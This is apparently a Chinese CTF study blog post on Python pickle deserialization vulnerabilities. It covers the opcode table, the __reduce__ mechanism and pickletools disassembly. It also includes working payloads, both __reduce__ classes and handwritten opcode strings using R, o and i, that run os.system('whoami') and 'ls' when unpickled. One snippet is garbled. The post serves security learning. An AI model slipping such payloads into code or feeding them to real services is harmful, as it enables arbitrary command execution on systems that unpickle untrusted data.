





---
title: "pickle反序列化"
date: 2025-04-08T16:01:01+08:00
summary: "pickle反序列化"
url: "/posts/pickle反序列化/"
categories:
  - "python"
tags:
  - "pickle反序列化"
draft: false
---

# 前置知识

这几天打完xyctf了，里面刚好有一道pickle反序列化的题目，当时也是现学然后现打的，但总归学的还是不仔细，赛后还是得针对性的学一下

## 什么是Pickle？

参考官方文档：[`pickle` --- Python 对象序列化](https://docs.python.org/zh-cn/3/library/pickle.html#module-pickle)

跟PHP反序列化一样，在python中也会存在对象序列化和反序列化的操作，那么Pickle就是用于实现这一功能的模块之一

模块 `pickle` 实现了对一个 Python 对象结构的二进制序列化和反序列化。 *"pickling"* 是将 Python 对象及其所拥有的层次结构转化为一个字节流的过程，而 *"unpickling"* 是相反的操作，会将（来自一个 binary file 或者 bytes-like object 的）字节流转化回一个对象层次结构。



但是其实在python中并不只有pickle可以实现序列化的操作，python有一个更原始的序列化模块叫`marshal`,但一般地 `pickle` 应该是序列化 Python 对象时的首选。`marshal` 存在主要是为了支持 Python 的 `.pyc` 文件.

但是根据官方文档的话，他有提到一个更安全的序列化格式json，这两个有什么区别呢

## Pickle和JSON的区别

- JSON 是一个文本序列化格式（它输出 unicode 文本，尽管在大多数时候它会接着以 `utf-8` 编码），而 pickle 是一个二进制序列化格式；
- JSON 是我们可以直观阅读的，而 pickle 不是；
- JSON是可互操作的，在Python系统之外广泛使用，而pickle则是Python专用的；
- 默认情况下，JSON 只能表示 Python 内置类型的子集，不能表示自定义的类；但 pickle 可以表示大量的 Python 数据类型（可以合理使用 Python 的对象内省功能自动地表示大多数类型，复杂情况可以通过实现 specific object APIs 来解决）。
- 不像pickle，对一个不信任的JSON进行反序列化的操作本身不会造成任意代码执行漏洞。

## Pickle模块常见接口

要序列化某个包含层次结构的对象，只需调用 `dumps()` 函数即可。同样，要反序列化数据流，可以调用 `loads()` 函数。



然后我们来写个实例分析一下pickle序列化和反序列化的操作

## pickle实例分析

```py
import pickle

class Person:
    def __init__(self):
        self.age = 20
        self.name = "Vu1n4bly"
p = Person()

#序列化操作
test = pickle.dumps(p)
print(test)
#序列化结果：b'\x80\x04\x959\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x06Person\x94\x93\x94)\x81\x94}\x94(\x8c\x03age\x94K\x14\x8c\x04name\x94\x8c\x08Vu1n4bly\x94ub.'

#反序列化操作
test2 = pickle.loads(test)
print(test2)
#反序列化结果<__main__.Person object at 0x00000225672867B0>
```

在代码中我创建了Person类，并通过init初始化了两个变量name和age，并实例化了对象，然后使用`pickle.dumps()`函数将一个Person对象序列化成二进制字节流的形式。然后使用`pickle.loads()`将一串二进制字节流反序列化为一个Person对象。

什么反序列化结果是对象内存地址？

1. **序列化内容解析**

   - Pickle 的二进制输出包含：
     - 类定义信息（来自 `__main__` 模块的 `Person` 类）
     - 实例属性值（`age=20` 和 `name="Vu1n4bly"`）

2. **反序列化过程**

   - Pickle 会：
     1. 找到 `__main__.Person` 类的定义 2.创建一个新的 `Person` 实例
     2. 恢复其属性值（`age` 和 `name`）
     3. 返回这个新对象

3. **输出结果的本质**`print(test2)`

   输出的是对象的默认字符串表示形式：

   - `<__main__.Person object at 0x内存地址>`

   - 这是 Python 所有对象的默认 `____` 输出格式
   - 内存地址每次运行都会变化（这是新创建对象的特征）

所以我们试一下输出反序列化后的对象的内容

```python
import pickle

class Person:
    def __init__(self):
        self.age = 20
        self.name = "Vu1n4bly"
p = Person()

#序列化操作
test = pickle.dumps(p)
print(test)
#序列化结果：b'\x80\x04\x959\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x06Person\x94\x93\x94)\x81\x94}\x94(\x8c\x03age\x94K\x14\x8c\x04name\x94\x8c\x08Vu1n4bly\x94ub.'

#反序列化操作
test2 = pickle.loads(test)
print(test2)
#反序列化结果<__main__.Person object at 0x00000225672867B0>

#输出内容
print("age = " + str(test2.age))
print("name = " + test2.name)
'''
age = 20
name = Vu1n4bly
'''
```

可以看到这里可以直接访问并输出反序列化对象的内容

## 能够序列化的对象类型

这个在官方文档中也有介绍到



以上就是我们的前置知识了

# Pickle反序列化漏洞

在上面跟json模块的对比中，从最后一点可以看出，pickle在操作的时候是可能被造成任意代码执行漏洞的，这是为什么呢？这取决于Pickle模块中对数据的不安全处理，pickle 数据来 **在解封时执行任意代码** 是可能的。如果我们在数据中包含精心构造的恶意代码，就可能会导致恶意代码被执行，这是为什么呢？

## 漏洞成因

- Pickle数据在**反序列化时自动执行Python字节码（或对象方法）**
- 模块本质上不会对反序列化的内容进行校验

如果我们使用`pickle.loads()`方法`unpickling`的时候，本质上是在重构对象，而并非简单的解析数据，如果我们对象定义了魔术方法例如`__reduce__`，Pickle 会调用它，并存储其返回内容作为反序列化的依据。

## 什么是`__reduce__`方法

`__reduce__`方法在定义的时候是不带任何形参的，但是应返回字符串或最好返回一个元组(返回的对象通常称为“reduce 值”)。



方法定义

```python
def __reduce__(self):
    return (callable, args_tuple)
```

- **`callable`**：可调用对象（如 `exec`, `os.system`, `lambda`, 或一个类名）。
- **`args_tuple`**：传给 `callable` 的参数（必须是一个元组）。

可以把返回值理解成PHP中`call_user_func`函数的运用，第一个参数就是需要传入的类或者函数对象，后面的元组是需要传入该函数的参数

我们写个实例

```python
import pickle
import os

class Person:
    def __init__(self):
        self.age = 20
        self.name = "Vu1n4bly"

    def __reduce__(self):
        command = r"whoami"  # 要执行的系统命令
        return (os.system, (command,))  # 返回可执行元组


p = Person()
test = pickle.dumps(p)

test2 = pickle.loads(test)
#wanth3f1ag\23232
```

可以看到在字节流被反序列化后，Python会调用`__reduce__`，并将os.system,(command,)作为返回值，这里返回了whoami的执行结果

以上的结果就是简单的对pickle反序列化漏洞进行了一点讲解，如果想深入的话，我们来看看pickle的工作原理

## pickle基于PVM的工作原理

参考文章：[Pickle反序列化](https://goodapple.top/archives/1069)

学过编程都知道，任何语言到最后都是以字节码的形式而存在的，python代码的执行也是如此，一门解释性语言也会把源码解析编译为字节码，也就是pyc文件

Python Virtual Machine (PVM) 是 Python *运行时环境* 的核心组件，它负责 **执行 Python 字节码**，使其能够在不同系统上运行。这就跟Java中的JVM一样，但是这个是属于python中的

其实pickle模块在序列化Python对象时，会生成一系列操作码（opcode）来表示对象的类型和值。而在反序列化的时候，pickle模块读取操作码序列，并将其解释为Python对象。它**通过Pickle Virtual Machine来执行操作码序列。**此时PVM会按照顺序读取操作码，并根据操作码执行相应的操作

PVM由以下三部分组成

- 指令处理器：从流中读取 `opcode` 和参数，并对其进行解释处理。重复这个动作，直到遇到 . 这个结束符后停止。 最终留在栈顶的值将被作为反序列化对象返回。
- stack：由 Python 的 **`list`** 实现，被用来临时存储数据、参数以及对象。
- memo：由 Python 的 **`dict`** 实现，为 PVM 的整个生命周期提供存储。


当前用于 pickling 的协议共有 5 种。使用的协议版本越高，读取生成的 pickle 所需的 Python 版本就要越新。

- v0 版协议是原始的“人类可读”协议，并且向后兼容早期版本的 Python。
- v1 版协议是较早的二进制格式，它也与早期版本的 Python 兼容。
- v2 版协议是在 Python 2.3 中引入的。它为存储 [new-style class](https://docs.python.org/zh-cn/3.7/glossary.html#term-new-style-class) 提供了更高效的机制。欲了解有关第 2 版协议带来的改进，请参阅 [**PEP 307**](https://www.python.org/dev/peps/pep-0307)。
- v3 版协议添加于 Python 3.0。它具有对 [`bytes`](https://docs.python.org/zh-cn/3.7/library/stdtypes.html#bytes) 对象的显式支持，且无法被 Python 2.x 打开。这是目前默认使用的协议，也是在要求与其他 Python 3 版本兼容时的推荐协议。
- v4 版协议添加于 Python 3.4。它支持存储非常大的对象，能存储更多种类的对象，还包括一些针对数据格式的优化。有关第 4 版协议带来改进的信息，请参阅 [**PEP 3154**](https://www.python.org/dev/peps/pep-3154)。

**pickle协议是向前兼容的**，0号版本的字符串可以直接交给pickle.loads()，不用担心引发什么意外。下面我们以V0版本为例，介绍一下常见的opcode

## 全部opcode

```
MARK           = b'('   # push special markobject on stack
STOP           = b'.'   # every pickle ends with STOP
POP            = b'0'   # discard topmost stack item
POP_MARK       = b'1'   # discard stack top through topmost markobject
DUP            = b'2'   # duplicate top stack item
FLOAT          = b'F'   # push float object; decimal string argument
INT            = b'I'   # push integer or bool; decimal string argument
BININT         = b'J'   # push four-byte signed int
BININT1        = b'K'   # push 1-byte unsigned int
LONG           = b'L'   # push long; decimal string argument
BININT2        = b'M'   # push 2-byte unsigned int
NONE           = b'N'   # push None
PERSID         = b'P'   # push persistent object; id is taken from string arg
BINPERSID      = b'Q'   #  "       "         "  ;  "  "   "     "  stack
REDUCE         = b'R'   # apply callable to argtuple, both on stack
STRING         = b'S'   # push string; NL-terminated string argument
BINSTRING      = b'T'   # push string; counted binary string argument
SHORT_BINSTRING= b'U'   #  "     "   ;    "      "       "      " &lt; 256 bytes
UNICODE        = b'V'   # push Unicode string; raw-unicode-escaped'd argument
BINUNICODE     = b'X'   #   "     "       "  ; counted UTF-8 string argument
APPEND         = b'a'   # append stack top to list below it
BUILD          = b'b'   # call __setstate__ or __dict__.update()
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
DICT           = b'd'   # build a dict from stack items
EMPTY_DICT     = b'}'   # push empty dict
APPENDS        = b'e'   # extend list on stack by topmost stack slice
GET            = b'g'   # push item from memo on stack; index is string arg
BINGET         = b'h'   #   "    "    "    "   "   "  ;   "    " 1-byte arg
INST           = b'i'   # build &amp; push class instance
LONG_BINGET    = b'j'   # push item from memo on stack; index is 4-byte arg
LIST           = b'l'   # build list from topmost stack items
EMPTY_LIST     = b']'   # push empty list
OBJ            = b'o'   # build &amp; push class instance
PUT            = b'p'   # store stack top in memo; index is string arg
BINPUT         = b'q'   #   "     "    "   "   " ;   "    " 1-byte arg
LONG_BINPUT    = b'r'   #   "     "    "   "   " ;   "    " 4-byte arg
SETITEM        = b's'   # add key+value pair to dict
TUPLE          = b't'   # build tuple from topmost stack items
EMPTY_TUPLE    = b')'   # push empty tuple
SETITEMS       = b'u'   # modify dict by adding topmost key+value pairs
BINFLOAT       = b'G'   # push float; arg is 8-byte float encoding

TRUE           = b'I01\n'  # not an opcode; see INT docs in pickletools.py
FALSE          = b'I00\n'  # not an opcode; see INT docs in pickletools.py

# Protocol 2

PROTO          = b'\x80'  # identify pickle protocol
NEWOBJ         = b'\x81'  # build object by applying cls.__new__ to argtuple
EXT1           = b'\x82'  # push object from extension registry; 1-byte index
EXT2           = b'\x83'  # ditto, but 2-byte index
EXT4           = b'\x84'  # ditto, but 4-byte index
TUPLE1         = b'\x85'  # build 1-tuple from stack top
TUPLE2         = b'\x86'  # build 2-tuple from two topmost stack items
TUPLE3         = b'\x87'  # build 3-tuple from three topmost stack items
NEWTRUE        = b'\x88'  # push True
NEWFALSE       = b'\x89'  # push False
LONG1          = b'\x8a'  # push long from &lt; 256 bytes
LONG4          = b'\x8b'  # push really big long

_tuplesize2code = [EMPTY_TUPLE, TUPLE1, TUPLE2, TUPLE3]

# Protocol 3 (Python 3.x)

BINBYTES       = b'B'   # push bytes; counted binary string argument
SHORT_BINBYTES = b'C'   #  "     "   ;    "      "       "      " &lt; 256 bytes

# Protocol 4

SHORT_BINUNICODE = b'\x8c'  # push short string; UTF-8 length &lt; 256 bytes
BINUNICODE8      = b'\x8d'  # push very long string
BINBYTES8        = b'\x8e'  # push very long bytes string
EMPTY_SET        = b'\x8f'  # push empty set on the stack
ADDITEMS         = b'\x90'  # modify set by adding topmost stack items
FROZENSET        = b'\x91'  # build frozenset from topmost stack items
NEWOBJ_EX        = b'\x92'  # 类似于NEWOBJ，但只使用关键字参数
STACK_GLOBAL     = b'\x93'  # 与GLOBAL相同，但使用堆栈上的名称
MEMOIZE          = b'\x94'  # 在memo中存储栈顶
FRAME            = b'\x95'  # 表示新帧的开始

# Protocol 5

BYTEARRAY8       = b'\x96'  # 推字节数组
NEXT_BUFFER      = b'\x97'  # 推入下一个带外缓冲器
READONLY_BUFFER  = b'\x98'  # 使栈顶只读
```

## 常用opcode

| 指令 | 描述                                                         | 具体写法                                           | 栈上的变化                                                   |
| :--- | :----------------------------------------------------------- | :------------------------------------------------- | :----------------------------------------------------------- |
| c    | 获取一个全局对象或import一个模块                             | c[module]\n[instance]\n                            | 获得的对象入栈                                               |
| o    | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象） | o                                                  | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 |
| i    | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i[module]\n[callable]\n                            | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 |
| N    | 实例化一个None                                               | N                                                  | 获得的对象入栈                                               |
| S    | 实例化一个字符串对象                                         | S'xxx'\n（也可以使用双引号、\'等python字符串形式） | 获得的对象入栈                                               |
| V    | 实例化一个UNICODE字符串对象                                  | Vxxx\n                                             | 获得的对象入栈                                               |
| I    | 实例化一个int对象                                            | Ixxx\n                                             | 获得的对象入栈                                               |
| F    | 实例化一个float对象                                          | Fx.x\n                                             | 获得的对象入栈                                               |
| R    | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R                                                  | 函数和参数出栈，函数的返回值入栈                             |
| .    | 程序结束，栈顶的一个元素作为pickle.loads()的返回值           | .                                                  | 无                                                           |
| (    | 向栈中压入一个MARK标记                                       | (                                                  | MARK标记入栈                                                 |
| t    | 寻找栈中的上一个MARK，并组合之间的数据为元组                 | t                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 |
| )    | 向栈中直接压入一个空元组                                     | )                                                  | 空元组入栈                                                   |
| l    | 寻找栈中的上一个MARK，并组合之间的数据为列表                 | l                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 |
| ]    | 向栈中直接压入一个空列表                                     | ]                                                  | 空列表入栈                                                   |
| d    | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | d                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 |
| }    | 向栈中直接压入一个空字典                                     | }                                                  | 空字典入栈                                                   |
| p    | 将栈顶对象储存至memo_n                                       | pn\n                                               | 无                                                           |
| g    | 将memo_n的对象压栈                                           | gn\n                                               | 对象被压栈                                                   |
| 0    | 丢弃栈顶对象                                                 | 0                                                  | 栈顶对象被丢弃                                               |
| b    | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | b                                                  | 栈上第一个元素出栈                                           |
| s    | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | s                                                  | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 |
| u    | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | u                                                  | MARK标记以及被组合的数据出栈，字典被更新                     |
| a    | 将栈的第一个元素append到第二个元素(列表)中                   | a                                                  | 栈顶元素出栈，第二个元素（列表）被更新                       |
| e    | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | e                                                  | MARK标记以及被组合的数据出栈，列表被更新                     |

然后我们可以通过dis函数去输出字节码,Python的`dis`模块是用于**反汇编(disassemble)**Python字节码的核心工具，可以展示代码是如何被PVM执行的。



接下来我们看一下

## 分析字节流

```python
import pickle
import os
import pickletools
class Person:
    def __init__(self):
        self.age = 20
        self.name = "Vu1n4bly"

    def __reduce__(self):
        command = r"whoami"  # 要执行的系统命令
        return (os.system, (command,))  # 返回可执行元组


p = Person()
test = pickle.dumps(p)
pickletools.dis(test)
'''
    0: \x80 PROTO      4
    2: \x95 FRAME      30
   11: \x8c SHORT_BINUNICODE 'nt'
   15: \x94 MEMOIZE    (as 0)
   16: \x8c SHORT_BINUNICODE 'system'
   24: \x94 MEMOIZE    (as 1)
   25: \x93 STACK_GLOBAL
   26: \x94 MEMOIZE    (as 2)
   27: \x8c SHORT_BINUNICODE 'whoami'
   35: \x94 MEMOIZE    (as 3)
   36: \x85 TUPLE1
   37: \x94 MEMOIZE    (as 4)
   38: R    REDUCE
   39: \x94 MEMOIZE    (as 5)
   40: .    STOP
highest protocol among opcodes = 4
'''
```

我们看一下这段字节流数据

```python
0: \x80 PROTO      4     ← 协议版本4
2: \x95 FRAME      30    ← 数据帧(30字节) 
11: \x8c SHORT_BINUNICODE 'nt'       ← 模块名'nt'（Windows下的os模块别名）
15: \x94 MEMOIZE    (as 0)           ← 缓存到memo[0]
16: \x8c SHORT_BINUNICODE 'system'   ← 函数名'system'
24: \x94 MEMOIZE    (as 1)           ← 缓存到memo[1]
25: \x93 STACK_GLOBAL                ← 组合成全局对象`nt.system`
26: \x94 MEMOIZE    (as 2)           ← 缓存到memo[2]
27: \x8c SHORT_BINUNICODE 'whoami'   ← 命令参数'whoami'
35: \x94 MEMOIZE    (as 3)           ← 缓存到memo[3]
36: \x85 TUPLE1                      ← 打包为元组`('whoami',)`
37: \x94 MEMOIZE    (as 4)           ← 缓存到memo[4]
38: R    REDUCE                      ≈ 调用`nt.system(*('whoami',))` ⚠️危险！
39: \x94 MEMOIZE    (as 5)           ← 无实际意义（STOP前冗余操作）
40: .    STOP                        ← 结束

```

关键指令

- **`STACK_GLOBAL` (0x93)**

从栈顶弹出两个字符串 (`模块名` 和 `属性名`)，组合成全局对象

- **`REDUCE` (0x52)**

1. 弹出栈顶的元组作为参数 (`args`)
2. 弹出下一个对象作为可调用对象 (`callable`)

这里的话就等价于

```
import os os.system('whoami')
```

师傅的文章中给出了PVM解析`__reduce__()`的过程


所以我们可以很清晰的领会到opcode在PVM中的操作流程，那接下来我们就可以根据opcode指令手写opcode

## 实操opcode

```python
import pickle

opcode =b'''cos
system
(S'whoami'
tR.
'''
pickle.loads(opcode)
#wanth3f1ag\23232
```

解释一下opcode

- `c`：获取一个全局对象或import一个模块，写法是`c[module]\n[instance]\n`，这里是import了os模块

根据上面的`STACK_GLOBAL` (0x93)可以知道这里是相当于导入os模块，调用system

- `(`：向栈中压入一个MARK标记
- `S`：实例化一个字符串对象，压入whoami字符串
- `t`：寻找栈中的上一个MARK，并组合之间的数据为元组，也就是`('whoami')`
- `R`：选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数，就是system('whoami')
- `.`：程序结束，把函数执行结果作为返回值

## opcode和`__reduce__`

上面我们也写到了我们可以通过重构`__reduce__`的方法在反序列化的时候执行任意命令，但是这个方法每次只能执行一个命令，而opcode不一样，我们可以通过将字节流拼接的方式执行多个命令

```python
import pickle

opcode = b'''cos
system
(S'whoami'
tRcos
system
(S'ls'
tR.'''
pickle.loads(opcode)
'''
root@VM-16-12-ubuntu:/var/www/html# python3 test.py 
root
1.php  index.nginx-debian.html  test.py
'''
```

成功执行ls和whoami两个命令

在常用opcode中可以看到，在pickle中用来构造函数执行的字节码有：`R`、`i`、`o`共同实现命令执行。

- `R`：选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数。**函数和参数出栈，函数的返回值入栈**

上面讲的就是R字节码的操作

- `o`：寻找栈中的上一个MARK(`t`的操作），以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象），**这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈**

```py
import pickle

opcode = b'''(cos
system
S'whoami'
o.
'''
root@VM-16-12-ubuntu:/var/www/html# python3 test.py 
root
'''
```

- `i`：相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象）用法：`i[module]\n[callable]\n`**，这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈**

```py
import pickle

opcode=b'''(S'whoami'
ios
system
.'''
root@VM-16-12-ubuntu:/var/www/html# python3 test.py 
root
'''
```

先学这么多吧~后面有积累到新姿势会回来补充的
